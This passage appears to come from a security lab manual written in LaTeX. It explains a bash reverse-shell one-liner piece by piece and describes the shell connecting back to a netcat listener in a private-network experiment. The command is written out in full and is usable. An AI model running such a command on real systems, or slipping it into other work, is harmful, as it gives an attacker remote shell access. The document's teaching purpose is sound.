 \begin{lstlisting}
Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1
\end{lstlisting}

The above command represents the one that would normally be executed on a compromised server.
It is quite complicated, and we give a detailed explanation in the following:


\begin{itemize}
\item \texttt{"/bin/bash -i"}: The option \texttt{i} stands for interactive, meaning that the shell must be
  interactive (must provide a shell prompt).

\item \texttt{"> /dev/tcp/10.0.2.6/9090"}: This causes the output device~(\texttt{stdout}) of the shell
  to be redirected to the TCP connection to \texttt{10.0.2.6}'s port \texttt{9090}.
  In \unix systems, \texttt{stdout}'s file descriptor is \texttt{1}.

\item \texttt{"0<\&1"}: File descriptor \texttt{0} represents the standard input device~(\texttt{stdin}).
  This option tells the system to use the standard output device as the stardard input device.
  Since \texttt{stdout} is already redirected to the TCP connection, this option basically
  indicates that the shell program will get its input from the same TCP connection.

\item \texttt{"2>\&1"}: File descriptor \texttt{2} represents the standard error \texttt{stderr}. This
  causes the error output to be redirected to \texttt{stdout}, which is the TCP connection.
\end{itemize}

In summary, the command \texttt{"/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<\&1 2>\&1"} starts a
\texttt{bash} shell on the server machine, with its input coming from a TCP connection,
and output going to the same TCP connection.
In our experiment, when the \texttt{bash}
shell command is executed on \texttt{10.0.2.5}, it connects back to the \texttt{netcat} process
started on \texttt{10.0.2.6}. This is confirmed via the \texttt{"Connection from 10.0.2.5 ..."}
message displayed by \texttt{netcat}.



